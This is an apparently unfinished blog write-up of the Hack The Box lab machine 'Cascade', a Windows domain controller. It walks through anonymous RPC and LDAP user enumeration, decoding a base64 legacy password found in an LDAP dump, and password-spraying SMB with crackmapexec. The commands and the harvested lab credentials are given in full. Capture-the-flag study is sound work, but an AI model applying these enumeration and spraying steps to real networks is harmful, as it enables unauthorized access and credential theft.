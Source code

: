 ```yaml
---
title: "Cascade"
layout: post
---
```


Operating System: Windows <br>
Rating: <span style="color:orange">Medium</span> <br>
My Rating: <span style="color:orange">Medium</span> <br>

## Overview
Enumerate possible user accounts with SMB then poke at LDAP to find a base64 encoded password that sticks out. With those credentials you can login to an SMB user and find a registery
file that contains set of credentials encoded in hex. These credentials will then give us access to a .NET application that we can reverse to find out how password are being decrypted
for a database. This will give us access to Active Directory via remote login which we can "scavenge" the recycle bin and find credentials for an Administrator account.

## Recon
As always, Nmap the box to find open ports which we can enumerate further. The following ports were open:
{% highlight bash %}
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-04-04 13:39:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m41s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-04-04T13:40:36
|_  start_date: 2020-04-04T11:27:34
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
{% endhighlight %}
Just by seeing DNS (port 53), SMB (port 139) and ldap (port 389) I can tell we are dealing with Active Directory. <br>
The LDAP banner confirms it as well as giving us the domain name 'cascade.local'. <br>
Quick tip: if you take a look at the hostname 'CASC-DC1', DC usually stands for domain controller which is a massive hint that the machine is an Active Directory.
## Enumeration
### RPC
First things first, lets try leak some usernames since port 5985 is open which is typically for remote login. There are several ways to enumerate usernames but the quickest is to login anonymously with rpcclient by specifying an empty username/password and using the 'enumdomusers' command:
{% highlight bash %}
root@crab:~/Desktop/hax/box/cascade# rpcclient 10.10.10.182 -U ''
Enter password: 
rpcclient $> enumdomusers
user:[CascGuest] rid:[0x1f5]
user:[arksvc] rid:[0x452]
user:[s.smith] rid:[0x453]
user:[r.thompson] rid:[0x455]
user:[util] rid:[0x457]
user:[j.wakefield] rid:[0x45c]
user:[s.hickson] rid:[0x461]
user:[j.goodhand] rid:[0x462]
user:[a.turnbull] rid:[0x464]
user:[e.crowe] rid:[0x467]
user:[b.hanson] rid:[0x468]
user:[d.burman] rid:[0x469]
user:[BackupSvc] rid:[0x46a]
user:[j.allen] rid:[0x46e]
user:[i.croft] rid:[0x46f]
{% endhighlight %}
You can use the magical sed and awk commands to keep just the usersnames or do it manually (if you do it manually i respect your dedication). <br> 
Here is a command that will make your life a breeze:
{% highlight bash %}
cat temp.txt | awk -F\[ {'print $2'} | awk -F\] {'print $1'} > users.txt
cat users.txt
CascGuest
arksvc
s.smith
r.thompson
util
j.wakefield
s.hickson
j.goodhand
a.turnbull
e.crowe
b.hanson
d.burman
BackupSvc
j.allen
i.croft
{% endhighlight %}
### LDAP
We have usernames now but we still possible password which can be found using ldapsearch. Lets start by dumping everything into a file using anonymous LDAP login and go on from there.
{% highlight bash %}
ldapsearch -x -h 10.10.10.182 -b dc=cascade,dc=local > ldap/anonymous.ldap
{% endhighlight %}
Using grep on a file rather than calling ldapsearch each time is probably the best idea; in this case I printed out the file that contained the output of ldap and used grep to filter out anything that was unique. <br> 
Sifting through the output, "cascadeLegacyPwd: clk0bjVldmE=" stands out and decoding the base64 gives us a potential password.
{% highlight bash %}
cat ldap/anonymous.ldap | sort | uniq -c
...
   1  cade.local                                                                                                                      
      3  cal                                                                                                                             
      1  =cascade,DC=local                                                                                                               
      3  cascade,DC=local                                                                                                                
      1 cascadeLegacyPwd: clk0bjVldmE=                                                                                                   
      3   cascade.local                                                                                                                  
      1 # cascade.local                                                                                                                  
      1 # CASC-DC1, Domain Controllers, cascade.local  
...
echo clk0bjVldmE= | base64 -d
rY4n5eva
{% endhighlight %}
### SMB
We still do not know who the password belongs to so im going to spray and pray. Remember to check password policies before spraying blindly since some accounts might end up getting blocked preventing you from logging in.
{% highlight %}
crackmapexec smb 10.10.10.182 -u u.txt -p rY4n5eva
CME          10.10.10.182:445 CASC-DC1        [+] CASCADE\r.thompson:rY4n5eva
{% endhighlight %}
We got a hit for SMB! Usually we would try the credentials with evil-winrm, but in this case it looks like r.thompson is not part of the remote login group since his credentials were invalid. <br>
Poking at the SMB shares available to r.thompson with smbmap, there is a specific share called 'Data' and could potentially contain sensitive information.
{% highlight bash %}
smbmap -H 10.10.10.182 -u r.thompson -p rY4n5eva
[+] IP: 10.10.10.182:445        Name: cascade.local                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 
{% endhighlight %}
